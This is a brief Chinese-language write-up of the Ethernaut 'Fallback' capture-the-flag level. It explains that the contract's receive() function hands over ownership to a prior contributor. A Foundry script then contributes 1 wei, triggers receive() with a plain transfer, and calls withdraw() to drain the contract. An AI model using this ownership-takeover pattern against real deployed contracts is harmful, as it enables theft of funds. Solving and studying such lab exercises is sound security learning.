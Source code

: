 # Fallback


通过查看合约，发现存在`receive()`函数，并且会修改合约的owner。只要我们在向合约发送ETH前，调用`contribute()`函数即可。

```solidity
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Fallback} from "../src/Fallback.sol";

contract FallbackScript is Script {
    // instance id: 0x1D3DF7c76c2cfb27E8BCcB1ae55cc549E9a9ADf6
    Fallback public fb = Fallback(payable(0x1D3DF7c76c2cfb27E8BCcB1ae55cc549E9a9ADf6));

    function setUp() public {
    }

    function run() public {
        vm.startBroadcast();

        fb.contribute{value: 1 wei}();
        payable(0x1D3DF7c76c2cfb27E8BCcB1ae55cc549E9a9ADf6).call{value: 1 wei}("");
        fb.withdraw();
        vm.stopBroadcast();
    }
}
```